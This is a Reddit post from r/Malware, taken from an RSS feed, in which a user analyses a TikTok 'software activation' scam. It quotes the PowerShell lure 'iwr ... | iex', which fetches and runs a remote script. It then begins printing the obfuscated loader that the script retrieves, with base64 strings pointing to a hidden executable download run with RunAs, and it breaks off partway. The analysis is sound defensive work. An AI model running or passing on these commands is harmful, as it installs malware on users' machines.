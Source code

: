 # Source:Malware Analysis & Reports, URL:https://www.reddit.com/r/Malware/.rss, language:en

## Fake Software activation Malware
 - [https://www.reddit.com/r/Malware/comments/1inwcl7/fake_software_activation_malware](https://www.reddit.com/r/Malware/comments/1inwcl7/fake_software_activation_malware)
 - RSS feed: $source
 - date published: 2025-02-12T17:26:41+00:00

<!-- SC_OFF --><div class="md"><p>I have very recently come across a TikTok (user: theshellshield ) account claiming to be able to activate certain software. I knew that this was nonsense. It was clear that it was relying on people who did not know what they were doing typing stuff into the PowerShell and running it. The videos led the user to type <code>iwr &quot;windows.keytool.cc | iex</code> which downloaded and ran a script.</p> <p>To see what was happening here I loaded up a Linux VM and used <code>iwr &quot;windows.keytool.cc&quot; -OutFile &quot;/home/user/output.txt&quot;</code> to have a look at the code.</p> <p>Here is what i got:</p> <pre><code>$downloadUrlB64 = &quot;aHR0cHM6Ly9henNvbHZlci5jb20vZmlsZXMvbWFpbi5leGU=&quot; $updaterExeB64 = &quot;dXBkYXRlci5leGU=&quot; $hiddenAttrB64 = &quot;SGlkZGVu&quot; $silentlyContinueB64 = &quot;U2lsZW50bHljb250aW51ZQ==&quot; $stopActionB64 = &quot;U3RvcA==&quot; $directoryB64 = &quot;RGlyZWN0b3J5&quot; $runAsB64 = &quot;UnVuQXM=&quot

